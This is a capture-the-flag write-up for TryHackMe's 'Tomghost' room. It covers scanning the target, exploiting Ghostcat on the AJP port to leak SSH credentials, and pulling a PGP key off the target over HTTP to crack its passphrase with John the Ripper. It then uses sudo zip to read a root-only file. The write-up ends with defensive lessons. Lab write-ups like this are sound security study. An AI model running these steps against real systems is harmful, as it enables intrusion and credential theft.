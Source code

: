 # Tomghost

- **Challenge Link:**
  [https://tryhackme.com/room/tomghost](https://tryhackme.com/room/tomghost)
- **Author:** [stuxnet](https://tryhackme.com/p/stuxnet)
- **Difficulty Level:** Easy

## Enumeration

To begin, scan the target IP address with nmap to determine open ports and
services:

```
$ nmap -sV <machine IP>
...
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
8080/tcp open  http       Apache Tomcat 9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see the following services running:

- **Port 22**: SSH for secure remote login
- **Port 8009**: Apache Jserv allows Apache to talk to Tomcat (more on this
  later)
- **Port 8080:** Apache Tomcat for running enterprise Java applications. 

## Apache Jserv 

I was not familiar with Apache Jserv, so I Googled it. Essentially, it is a
service that allows Apache to host static content like usual, and then proxies
Tomcat related content to the Tomcat service. 

The service is running on the expected port 8009, however it is not normally
open to the world. 

## Ghostcat

After some more Googling, I found an excellent post on
[pen testing the Apache Jserv
protocol](https://book.hacktricks.xyz/pentesting/8009-pentesting-apache-jserv-protocol-ajp)
from hacktricks.xyz.

Since port 8009 is expose, the server is susceptible to a restricted LFI
vulnerability referred to as "Ghostcat". We can read files like
`WEB-INF/web.xml`
which can leak important information like credentials for the Tomcat interface,
depending on the server setup

Here is a Python implementation of the [exploit](https://www.exploit-db.com/exploits/48143)

Run it to leak the credentials to the SSH server.

```
$ python ghostcat.py <machine IP>
```

## Inital Access

Use the leaked credentials to log into the SSH server. From there, the user.txt
flag can be found at /home/merlin/user.txt:

```
skyfuck@ubuntu:~$ cat /home/merlin/user.txt
REDACTED-FLAG
```

## Privilege Escalation

Perform a directory listing on the skyfuck user's home directory:

```
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

credential.pgp likely contains credentials for an admin user, but it is encoded
with PGP and cannot be read yet. 

tryhackme.asc is a private PGP private key that can be used to decrypt the
credential.pgp file!

To start, let's load in the private key to memory:

```
skyfuck@ubuntu:~$ gpg --import tryhackme.asc
```

And now decrypt the credential file:

```
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp 

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
Enter passphrase:
```

Darn! The file is passphrase protected! Time to crack it.

## Cracking PGP

There are probably several ways to do this, but the most immediate idea I had
was to download the file to my local Kali box and use John The Ripper (JTR).

1. On the target, start a Python web server

```
skyfuck@ubuntu:~$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 ...
```

2. On the local machine, download the tryhackme.asc file

```
$ wget http://<machine IP>:8000/tryhackme.asc
```

3. Translate the .asc file into a format that JTR can understand

```
$ pgp2john tryhackme.asc > forjohn
```

4. Crack that passphrase!

```
$ john forjohn --wordlist=/usr/share/wordlists/rockyou.txt
```

Back on the target, use the cracked passphrase to access the credential.pgp
file.

```
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp --output credential.txt
skyfuck@ubuntu:~$ cat credential.txt
merlin:REDACTE-PASSWORD
```

Nice! We have the password for the merlin user! 

## Privilege Escalation

Switch to the other user and see what privileges they have on the system.

```
skyfuck@ubuntu:~$ su merlin
Password:                                                                                                                                                             
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:                                                                                                                       
    env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

Interesting, we can run /usr/bin/zip with no password as the root user. 

Make a zip file of the flag file root.txt

```
merlin@ubuntu:~$ sudo /usr/bin/zip ./flag.zip /root/root.txt
 adding: root/root.txt (stored 0%)

merlin@ubuntu:~$ unzip flag.zip
Archive:  flag.zip  
 extracting: root/root.txt

merlin@ubuntu:~$ cat root/root.txt
REDACTED-FLAG
```

## Lessons Learned
1. Apache Jserv on port 8009 should not be publicly accessible! [DiabloHorn has
a good post on
this](https://diablohorn.com/2011/10/19/8009-the-forgotten-tomcat-port/)
2. Credentials should never be hardcoded into a website's source code!
